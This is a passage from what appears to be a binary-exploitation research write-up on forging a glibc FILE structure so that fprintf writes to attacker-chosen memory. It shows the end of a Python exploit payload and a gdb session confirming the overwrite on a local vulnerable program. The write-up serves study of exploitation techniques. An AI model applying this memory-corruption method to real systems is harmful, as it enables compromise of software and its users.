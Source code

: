 ```python
payload += '\x00'*(260 - len(payload)) # fill the rest of padding with \0
payload += p32(0xffffce1c) # forged FILE structure address

print(encrypt(payload))
```

The only things that matter in the FILE structure are `_IO_buf_base` and `_IO_buf_end`, this is where you are able to 
write to using `fprintf`. 
`_IO_buf_base` is the start of where you are going to write, and `_IO_buf_end` is the end of it. We need to make room for writing 7 bytes, 
because it also writes the format string (` : `).
`vtable` is for the `vfprintf` security measure.
In theory this should overwrite `TEST=changeme`, so I tested it in gdb.

```
$ gdb ./vuln -q
Reading symbols from ./vuln...done.
gdb-peda$ b *main+233
Breakpoint 1 at 0x804865f: file vuln.c, line 27.
gdb-peda$ r abc $(python exploit.py)
Starting program: /home/student/Research/FILE_struct_exp/vuln abc $(python exploit.py)
[-------------------------------------code-------------------------------------]
   0x8048655 <main+223>:        lea    eax,[ebx-0x122d]
   0x804865b <main+229>:        push   eax
   0x804865c <main+230>:        push   DWORD PTR [ebp-0x1c]
=> 0x804865f <main+233>:        call   0x8048420 <fprintf@plt>
   0x8048664 <main+238>:        add    esp,0x10
   0x8048667 <main+241>:        sub    esp,0xc
   0x804866a <main+244>:        push   0x0
   0x804866c <main+246>:        call   0x80483f0 <exit@plt>
Guessed arguments:
arg[0]: 0xffffce1c --> 0x0
arg[1]: 0x8048713 ("%s : %s\n")
arg[2]: 0xffffd1e0 --> 0x636261 ('abc')
arg[3]: 0xffffce18 ("FOOD")
Breakpoint 1, 0x0804865f in main (argc=0x3, argv=0xffffcfe4) at vuln.c:27
27        fprintf(fp,"%s : %s\n",argv[1],buf);
gdb-peda$ p *fp
$1 = {
  _flags = 0x0, 
  _IO_read_ptr = 0x0, 
  _IO_read_end = 0x0, 
  _IO_read_base = 0x0, 
  _IO_write_base = 0x0, 
  _IO_write_ptr = 0x0, 
  _IO_write_end = 0x0, 
  _IO_buf_base = 0xffffd991 "TEST=changeme", 
  _IO_buf_end = 0xffffd998 "angeme", 
  _IO_save_base = 0x0, 
  _IO_backup_base = 0x0, 
  _IO_save_end = 0x0, 
  _markers = 0x0, 
  _chain = 0xf7faece0 <_IO_2_1_stderr_>, 
  _fileno = 0x0, 
  _flags2 = 0x0, 
  _old_offset = 0x0, 
  _cur_column = 0x0, 
  _vtable_offset = 0x0, 
  _shortbuf = "", 
  _lock = 0x804a204, 
  _offset = 0xffffffffffffffff, 
  __pad1 = 0x0, 
  __pad2 = 0x0, 
```

[link-1]: https://dhavalkapil.com/blogs/FILE-Structure-Exploitation/
[link-2]: https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique
[link-3]: https://blog.bushwhackers.ru/tokyo2019-printf/
[link-4]: http://docs.pwntools.com/en/stable/